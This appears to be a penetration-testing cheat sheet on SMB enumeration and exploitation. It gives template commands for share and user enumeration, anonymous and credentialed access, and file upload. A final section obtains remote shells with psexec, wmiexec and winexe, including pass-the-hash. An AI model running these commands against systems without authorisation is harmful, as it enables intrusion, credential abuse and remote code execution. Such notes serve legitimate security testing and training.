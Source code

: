 # Server Message Block _(SMB)_ enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [SID enumeration](#sid-enumeration)
* [Connecting to and enumerating an SMB share](#connecting-to-and-enumerating-an-smb-share)
* [Uploading files](#uploading-files)
* [Reverse shells](#reverse-shells)

## Initial enumeration
- Nmap smb-enum scripts _(not comprehensive, consider using other options)_:
```bash
nmap -vv -p 139,445 -sT --script=+smb-enum* <ip>
```
- Nmap All SMB scripts _(usually takes too long)_:
```bash
nmap -vv -p 139,445 -sT --script=+smb* <ip>
```
- `enum4linux` all enumeration:
```bash
enum4linux -a <ip>
```
- List shares:
```bash
smbclient -L <ip>
smbclient -L <ip> -U <username>
```
- List shares with permissions:
```bash
smbmap -H <ip>
smbmap -H <ip> -u 'anonymous'
smbmap -H <ip> -u 'anonymous' -p 'anonymous' 
smbmap -H <ip> -u <username> -p '<password>' 
```

## SID enumeration
- Enumerate users using MSRPC _(requires access to the IPC$ share)_:
```bash
lookupsid.py <ip>
lookupsid.py <user>:<password>@<ip>
```

## Connecting to and enumerating an SMB share
- Connect to a share:
```bash
smbclient //<ip>/<share_name>
smbclient //<ip>/<share_name> -U='anonymous%'
smbclient //<ip>/<share_name> -U='<username>%<password>'
```
- Enumerate files and folders:
```bash
ls
cd <path>
get <filename>
```

## Uploading files
```bash
put <filename>
```

## Reverse shells
```bash
psexec.py '<username>:<password>@<ip>'
wmiexec.py '<username>:<password>@<ip>'
winexe -U '<username>%<password>' //<ip> cmd.exe
pth-winexe -U '<username>%<lm_hash>:<nt_hash>' //<ip> cmd.exe
```
